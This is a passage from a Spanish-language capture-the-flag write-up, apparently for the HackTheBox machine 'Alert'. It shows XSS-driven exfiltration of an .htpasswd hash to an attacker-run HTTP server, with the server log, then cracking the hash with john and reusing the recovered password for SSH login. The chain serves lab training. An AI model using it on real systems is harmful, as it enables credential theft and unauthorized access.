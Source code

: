 Repetimos los pasos que hicimos anteriormente cuando nos trajimos el contenido del archivo `messages.php` 

- Enviamos el archivo `test.md` al `Markdown Viewer`
- Generamos el enlace para compartir el archivo
- Copiamos el enlace y lo enviamos a través del formulario `Contact Us`

Antes de enviar el mensaje debemos tener el servidor HTTP a la espera de conexiones

~~~ bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.44 - - [22/Mar/2025 16:53:02] "GET /xss.js HTTP/1.1" 200 -
10.10.11.44 - - [22/Mar/2025 16:53:03] "GET /?file_content=%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A HTTP/1.1" 200 -
~~~

Si hacemos la decodificación de URL del valor que hemos recibido, nos queda lo siguiente

~~~ html
<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
</pre>
~~~


## Hash Cracking

Guardaremos en un archivo este hash para intentar crackearlo con `john`, eliminando la etiqueta `<pre>`

> `hash.txt`

~~~ bash
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
~~~

~~~ bash
john -w:/usr/share/wordlists/rockyou.txt hash.txt --format=md5crypt-long
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (albert)     
1g 0:00:00:00 DONE (2025-03-22 17:10) 6.250g/s 17600p/s 17600c/s 17600C/s meagan..medicina
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
~~~

Y la contraseña encontrada es `manchesterunited`. Podemos usar estas credenciales para conectarnos a la web de `statistics.alert.htb`. Además intentaremos verificar si se reutilizan estas credenciales y nos permite conectarnos como el usuario `albert` proporcionando las mismas credenciales por `ssh`

~~~ bash
ssh albert@10.10.11.44 

The authenticity of host \'10.10.11.44 (10.10.11.44)' can't be established.
ED25519 key fingerprint is SHA256:p09n9xG9WD+h2tXiZ8yi4bbPrvHxCCOpBLSw0o76zOs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.44' (ED25519) to the list of known hosts.
albert@10.10.11.44\'s password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-200-generic x86_64)
...
...
Last login: Sat Mar 22 19:49:05 2025 from 10.10.14.166
albert@alert:~$ 
~~~
